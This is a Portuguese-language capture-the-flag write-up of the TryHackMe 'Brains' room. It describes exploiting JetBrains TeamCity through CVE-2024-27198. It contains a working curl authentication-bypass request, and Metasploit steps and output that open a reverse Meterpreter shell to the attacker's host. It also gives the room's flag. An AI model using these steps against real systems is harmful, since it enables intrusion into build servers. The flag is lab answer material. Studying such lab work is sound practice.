






# 🧠 Brains — CTF Writeup
### TryHackMe Room | Boot2Root · Exploração do JetBrains TeamCity (CVE-2024-27198) — Autenticação Bypass + RCE

---

| **Analista**          | Mauricio Robert                                                                              |
|-----------------------|----------------------------------------------------------------------------------------------|
| **Organização**       | CypherBaron                                                                            |
| **Data do Relatório** | 11/11/2026                                                                                   |
| **Classificação**     | CONFIDENCIAL                                                                                  |
| **IP do Atacante**    | `10.67.127.93` (AttackBox)                                                                    |
| **IP do Alvo**        | `10.67.166.107`                                                                               |
| **Serviço vulnerável**| JetBrains TeamCity `2023.11.3 (build 147512)` — porta `50000`                                 |
| **CVE explorado**     | **CVE-2024-27198** (Authentication Bypass) + **CVE-2024-27199**                               |
| **Link da sala**      | [tryhackme.com/room/brains](https://tryhackme.com/room/brains)                                |

---

## 🔍 Resumo Executivo

O desafio **Brains** (TryHackMe) é uma máquina **boot2root** que expõe uma instância do **JetBrains TeamCity** (servidor de CI/CD) em sua versão `2023.11.3 (build 147512)`, vulnerável ao **CVE-2024-27198** — uma falha crítica de **bypass de autenticação** divulgada em março de 2024. Através de uma requisição HTTP manipulada que explora o roteamento de *path parameters* do Apache Catalina/Tomcat (técnica também conhecida pela extensão de arquivo falsa `;.jsp`), foi possível acessar endpoints da API REST do TeamCity sem credenciais, confirmando a vulnerabilidade ao enumerar o usuário `administrator`. Em seguida, o módulo **Metasploit** `multi/http/jetbrains_teamcity_rce_cve_2024_27198` foi utilizado para converter o bypass de autenticação em **execução remota de código (RCE)**, obtendo uma shell **Meterpreter** com privilégios de root no servidor. A flag foi recuperada no diretório pessoal do usuário `ubuntu`.

---

## 🛠 Ferramentas Utilizadas

| Ferramenta / Comando | Finalidade |
|---|---|
| **`nmap -sS -Pn -sV -sC`** | Varredura de portas e detecção de serviços/versões |
| **Firefox (AttackBox)** | Inspeção visual da interface web do TeamCity |
| **`gobuster dir`** | Enumeração de diretórios/endpoints na porta 50000 |
| **`curl -i`** | Teste manual do bypass de autenticação (CVE-2024-27198) |
| **Metasploit Framework (`msfconsole`)** | Exploração automatizada (RCE) via módulo `jetbrains_teamcity_rce_cve_2024_27198` |
| **Meterpreter** | Shell pós-exploração para navegação no sistema e extração da flag |

---

## 📋 Fase 1 — Reconhecimento (Nmap)

```bash
nmap -sS -Pn -sV -sC 10.67.166.107
```

> 

| Porta | Serviço | Versão |
|---|---|---|
| **22/tcp** | SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocolo 2.0) |
| **80/tcp** | HTTP | Apache httpd 2.4.41 (Ubuntu) — título da página: *"Maintenance"* |
| **50000/tcp** | `ibm-db2?` (identificação incorreta do Nmap) | Na verdade, **JetBrains TeamCity** — confirmado pelo *fingerprint* HTTP contendo `TeamCity-Node-Id: MAIN_SERVER` e `Page: maintenance-welcome` / `Stage: APPLICATION_STARTING` no banner de resposta |

A varredura já revela, no próprio *fingerprint* da porta `50000`, um cabeçalho HTTP característico do TeamCity (`TeamCity-Node-Id: MAIN_SERVER`) e uma página de manutenção em estágio de inicialização — forte indicativo da aplicação alvo antes mesmo de abrir o navegador.

---

## 📋 Fase 2 — Enumeração Web

Acessando a porta `50000` diretamente no navegador, confirma-se a identidade e a versão exata do serviço:

> 

```
Log in to TeamCity
Version 2023.11.3 (build 147512)
```

Essa versão específica (**build 147512**) é conhecida por ser vulnerável ao **CVE-2024-27198**, divulgado publicamente em março de 2024 pela Rapid7.

Em seguida, uma varredura de diretórios foi executada contra a aplicação para mapear os endpoints disponíveis:

```bash
gobuster dir -u http://10.67.166.107:50000/ -w /usr/share/wordlists/dirb/common.txt
```

> 

| Endpoint | Status |
|---|---|
| `/admin`, `/css`, `/img`, `/js`, `/license`, `/maintenance`, `/oauth`, `/plugins`, `/problems`, `/profile`, `/queue`, `/status`, `/tests` | `302` (redirecionamento — requer autenticação) |
| `/agent`, `/agents`, `/build`, `/change`, `/changes`, `/favorite`, `/learn`, `/overview`, `/project`, `/test` | `401` (não autorizado) |
| `/favicon.ico` | `200` |
| `/update` | `403` |

A maioria dos endpoints retorna `401`/`302`, confirmando que a aplicação está protegida por autenticação — o próximo passo é contornar essa proteção.

---

## 📋 Fase 3 — Exploração: Bypass de Autenticação (CVE-2024-27198)

O **CVE-2024-27198** explora uma falha no tratamento de *path parameters* do Tomcat/Catalina usado pelo TeamCity: anexando um parâmetro de caminho falso terminando em `;.jsp` (ou similar) a uma URL de API protegida, o servidor interpreta a requisição através de um contexto diferente do pretendido, **contornando o filtro de autenticação** que normalmente protegeria o endpoint `/app/rest/*`.

**Passo 1 — Confirmar que o endpoint exige autenticação:**

```bash
curl -i http://10.67.166.107:50000/app/rest/users
```
```
HTTP/1.1 401
WWW-Authenticate: Basic realm="TeamCity"
WWW-Authenticate: Bearer realm="TeamCity"
Authentication required
```

**Passo 2 — Explorar o bypass com o sufixo malicioso `;.jsp`:**

```bash
curl -i 'http://10.67.166.107:50000/hax?jsp=/app/rest/users;.jsp'
```
```
HTTP/1.1 200
Content-Type: application/xml;charset=ISO-8859-1

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<users count="1"><user username="administrator" id="1" href="/app/rest/users/id:1"/></users>
```

> 

A segunda requisição, sem qualquer credencial, retorna com sucesso (**HTTP 200**) a listagem de usuários da API REST — incluindo o usuário **`administrator`** (ID `1`) — confirmando de forma inequívoca que o servidor está vulnerável ao bypass de autenticação.

---

## 📋 Fase 4 — Exploração: Execução Remota de Código (RCE) via Metasploit

Com o bypass de autenticação confirmado, o passo seguinte é escalar de "leitura não autenticada da API" para **execução remota de comandos**. O **CVE-2024-27198** (combinado ao **CVE-2024-27199**) permite, através do mesmo bypass, criar um token de autenticação administrativo e fazer upload de um *plugin* malicioso no TeamCity — mecanismo nativo da plataforma para estender funcionalidades — que é então executado pelo servidor, resultando em RCE completo.

O **Metasploit Framework** já possui um módulo pronto para automatizar toda essa cadeia:

```
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set RHOSTS 10.67.166.107
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set RPORT 50000
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > exploit

[*] Started reverse TCP handler on 10.67.127.93:4444
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9...
[*] Uploading plugin
[*] Sending stage (63220 bytes) to 10.67.166.107
[*] Deleting the plugin...
[+] Deleted /opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_Yc2VphEj
[+] Deleted /home/ubuntu/.BuildServer/system/caches/plugins.unpacked/Yc2VphEj
[*] Meterpreter session 1 opened (10.67.127.93:4444 -> 10.67.166.107:42444)
[*] Deleting the authentication token...
```

> 

O módulo confirma a vulnerabilidade, gera automaticamente um **token de autenticação JWT** válido (através do bypass), faz o upload de um **plugin malicioso** compilado como *stager* do Meterpreter, aguarda sua execução pelo servidor e, em seguida, **remove o plugin e o token** para limpar os rastros da exploração — resultando em uma sessão **Meterpreter** totalmente funcional.

---

## 📋 Fase 5 — Pós-Exploração e Captura da Flag

Com a sessão Meterpreter ativa, o diretório inicial da shell é o próprio diretório de instalação do TeamCity:

```
meterpreter > pwd
/opt/teamcity/TeamCity/bin
meterpreter > cd /home
meterpreter > ls
Listing: /home
================
ubuntu    (dir)

meterpreter > cd ubuntu/
meterpreter > ls
Listing: /home/ubuntu
======================
.BuildServer  .bash_history  .bashrc  .cache  .config  .local
.profile  .selected_editor  .ssh  .sudo_as_admin_successful  .wget-hsts
config.log  flag.txt

meterpreter > cat flag.txt
THM{faa9bac345709b6620a6200b484c7594}
```

> 

**Flag capturada: `THM{faa9bac345709b6620a6200b484c7594}`**

---

## ⛓ Kill Chain — Ataque Reconstruído

```
[FASE 1 — RECONHECIMENTO]
    nmap -sS -Pn -sV -sC 10.67.166.107
    → Portas abertas: 22 (SSH), 80 (Apache/Maintenance), 50000 (TeamCity)
    ↓
[FASE 2 — ENUMERAÇÃO WEB]
    Página de login confirma: JetBrains TeamCity 2023.11.3 (build 147512)
    gobuster mapeia endpoints da API REST (maioria protegida — 401/302)
    ↓
[FASE 3 — BYPASS DE AUTENTICAÇÃO (CVE-2024-27198)]
    curl .../hax?jsp=/app/rest/users;.jsp  → 200 OK
    Revela usuário "administrator" sem autenticação
    ↓
[FASE 4 — RCE VIA METASPLOIT]
    Módulo jetbrains_teamcity_rce_cve_2024_27198
    Cria token JWT administrativo via bypass → Upload de plugin malicioso
    → Execução do plugin pelo servidor → Reverse shell
    Meterpreter session aberta (10.67.127.93:4444 <- 10.67.166.107)
    ↓
[FASE 5 — PÓS-EXPLORAÇÃO]
    Navegação até /home/ubuntu
    cat flag.txt → THM{faa9bac345709b6620a6200b484c7594}
```

---

## 🗺 Mapeamento Investigativo

| Item | Detalhe |
|---|---|
| Serviço vulnerável | JetBrains TeamCity 2023.11.3 (build 147512) |
| Porta | `50000/tcp` |
| CVE de bypass de autenticação | **CVE-2024-27198** |
| CVE de RCE associado | **CVE-2024-27199** |
| Técnica de bypass | Manipulação de *path parameter* (`;.jsp`) no roteamento Tomcat/Catalina |
| Endpoint explorado | `/app/rest/users` via `/hax?jsp=/app/rest/users;.jsp` |
| Vetor de RCE | Upload de plugin malicioso via token administrativo forjado |
| Ferramenta de exploração | `msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198)` |
| Shell obtida | Meterpreter (reverse TCP, porta 4444) |
| Flag | `THM{faa9bac345709b6620a6200b484c7594}` (em `/home/ubuntu/flag.txt`) |

---

## 🚨 Artefatos e Indicadores Identificados (IOCs)

| Tipo | Indicador | Contexto |
|---|---|---|
| CVE | CVE-2024-27198 | Bypass de autenticação no TeamCity On-Premises |
| CVE | CVE-2024-27199 | Falha de controle de acesso complementar |
| Versão vulnerável | TeamCity 2023.11.3 (build 147512) | Corrigido na versão 2023.11.4+ |
| Payload HTTP | `GET /hax?jsp=/app/rest/users;.jsp` | Bypass de autenticação |
| Artefato de exploração | Plugin `.zip` malicioso em `TC_147512_<random>` | Carregado e removido automaticamente pelo Metasploit |
| Diretório de cache de plugin | `/home/ubuntu/.BuildServer/system/caches/plugins.unpacked/` | Vestígio de instalação de plugin |
| Porta de C2 (reverse shell) | `10.67.127.93:4444` | Handler Metasploit |
| Técnica (MITRE ATT&CK) | `T1190` | Exploit Public-Facing Application |
| Técnica (MITRE ATT&CK) | `T1556` | Modify Authentication Process (bypass) |
| Técnica (MITRE ATT&CK) | `T1505.003` | Server Software Component: Web Shell/Plugin malicioso |

---

## ✅ Resumo das Flags

| # | Descrição | Flag |
|---|---|---|
| 1 | Flag de root/sistema (`/home/ubuntu/flag.txt`) | `THM{faa9bac345709b6620a6200b484c7594}` |

---

## 📚 Referências

- [TryHackMe — Brains](https://tryhackme.com/room/brains)
- [CVE-2024-27198 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2024-27198)
- [CVE-2024-27199 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2024-27199)
- [Rapid7 — TeamCity CVE-2024-27198 and CVE-2024-27199 Analysis](https://www.rapid7.com/blog/post/2024/03/04/etr-critical-vulnerabilities-in-jetbrains-teamcity-cve-2024-27198-and-cve-2024-27199-fixed/)
- [Metasploit Module — jetbrains_teamcity_rce_cve_2024_27198](https://www.rapid7.com/db/modules/exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198/)
- [MITRE ATT&CK — T1190 Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)

---

*Writeup elaborado por Mauricio Robert — Faculdade Impacta | Novembro 2026*
